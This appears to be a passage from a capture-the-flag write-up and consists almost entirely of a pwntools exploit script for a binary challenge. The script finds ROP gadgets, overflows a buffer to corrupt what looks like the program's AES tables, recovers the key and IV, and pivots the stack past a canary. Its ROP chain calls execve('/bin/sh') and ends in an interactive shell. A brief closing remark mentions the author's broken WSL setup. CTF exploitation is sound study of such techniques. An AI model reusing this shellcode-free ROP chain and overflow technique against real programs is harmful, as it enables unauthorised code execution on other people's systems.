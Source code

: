 ```python
rdi = rop.find_gadget(['pop rdi','ret'])[0]
rsi = rop.find_gadget(['pop rsi','ret'])[0]
rdx = rop.find_gadget(['pop rdx','ret'])[0]
rax = rop.find_gadget(['pop rax','ret'])[0]
ret = rop.find_gadget(['ret'])[0]
leave = 0x00000000000578c8+base

syscall = rop.find_gadget(['syscall','ret'])[0]
binsh = libc.search(b'/bin/sh').__next__()

cmd(2)
sla(b": ", (b'A' * 288 + b'\x00' * (32 + 256 + 256 + 1)).hex())

kw = enc(b"A")
key = kw[0:8] + p32(u32(kw[8:12]) ^ u32(kw[0:4])) + p32(u32(kw[12:16]) ^ u32(kw[4:8]))

data_overflow( b"".ljust(288,b'A')+ b'\x8d\x01\x02\x04\x08\x10 @\x80\x1b6\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00R\tj\xd506\xa58\xbf@\xa3\x9e\x81\xf3\xd7\xfb|\xe39\x82\x9b/\xff\x874\x8eCD\xc4\xde\xe9\xcbT{\x942\xa6\xc2#=\xeeL\x95\x0bB\xfa\xc3N\x08.\xa1f(\xd9$\xb2v[\xa2Im\x8b\xd1%r\xf8\xf6d\x86h\x98\x16\xd4\xa4\\\xcc]e\xb6\x92lpHP\xfd\xed\xb9\xda^\x15FW\xa7\x8d\x9d\x84\x90\xd8\xab\x00\x8c\xbc\xd3\n\xf7\xe4X\x05\xb8\xb3E\x06\xd0,\x1e\x8f\xca?\x0f\x02\xc1\xaf\xbd\x03\x01\x13\x8ak:\x91\x11AOg\xdc\xea\x97\xf2\xcf\xce\xf0\xb4\xe6s\x96\xact"\xe7\xad5\x85\xe2\xf97\xe8\x1cu\xdfnG\xf1\x1aq\x1d)\xc5\x89o\xb7b\x0e\xaa\x18\xbe\x1b\xfcV>K\xc6\xd2y \x9a\xdb\xc0\xfex\xcdZ\xf4\x1f\xdd\xa83\x88\x07\xc71\xb1\x12\x10Y\'\x80\xec_`Q\x7f\xa9\x19\xb5J\r-\xe5z\x9f\x93\xc9\x9c\xef\xa0\xe0;M\xae*\xf5\xb0\xc8\xeb\xbb<\x83S\x99a\x17+\x04~\xbaw\xd6&\xe1i\x14cU!\x0c}c|w{\xf2ko\xc50\x01g+\xfe\xd7\xabv\xca\x82\xc9}\xfaYG\xf0\xad\xd4\xa2\xaf\x9c\xa4r\xc0\xb7\xfd\x93&6?\xf7\xcc4\xa5\xe5\xf1q\xd81\x15\x04\xc7#\xc3\x18\x96\x05\x9a\x07\x12\x80\xe2\xeb\'\xb2u\t\x83,\x1a\x1bnZ\xa0R;\xd6\xb3)\xe3/\x84S\xd1\x00\xed \xfc\xb1[j\xcb\xbe9JLX\xcf\xd0\xef\xaa\xfbCM3\x85E\xf9\x02\x7fP<\x9f\xa8Q\xa3@\x8f\x92\x9d8\xf5\xbc\xb6\xda!\x10\xff\xf3\xd2\xcd\x0c\x13\xec_\x97D\x17\xc4\xa7~=d]\x19s`\x81O\xdc"*\x90\x88F\xee\xb8\x14\xde^\x0b\xdb\xe02:\nI\x06$\\\xc2\xd3\xacb\x91\x95\xe4y\xe7\xc87m\x8d\xd5N\xa9lV\xf4\xeaez\xae\x08\xbax%.\x1c\xa6\xb4\xc6\xe8\xddt\x1fK\xbd\x8b\x8ap>\xb5fH\x03\xf6\x0ea5W\xb9\x86\xc1\x1d\x9e\xe1\xf8\x98\x11i\xd9\x8e\x94\x9b\x1e\x87\xe9\xceU(\xdf\x8c\xa1\x89\r\xbf\xe6BhA\x99-\x0f\xb0T\xbb\x16\x01')

c = enc(b"A")
iv = bytes([a^b for a,b in zip(AES.new(key, AES.MODE_ECB).decrypt(c), b"A".ljust(16, b'\x0f'))])
print(binascii.hexlify(key), binascii.hexlify(iv))

aes = AES.new(key, AES.MODE_CBC, iv)
info(hex(leave))
rrr = flat([
    0x555555558020-0x0000555555554000+pie-8,0,leave,0
])
ropchain = flat([
    rdi,binsh,rsi,0,rdx,0,libc.sym['execve']
])
enc(aes.decrypt(AES.new(key, AES.MODE_CBC, iv).encrypt(ropchain.ljust(0xf0,b'\0')) + p64(canary) + cyclic(0x8)+rrr))

p.interactive()
```

PS: I broke my WSL in the last hour of the CTF due to replacing system `ld` with the `ld` used by this challenge, so I asked my teammate n132 to finish the last step of the exploitation. Lesson learned: never do this again. :)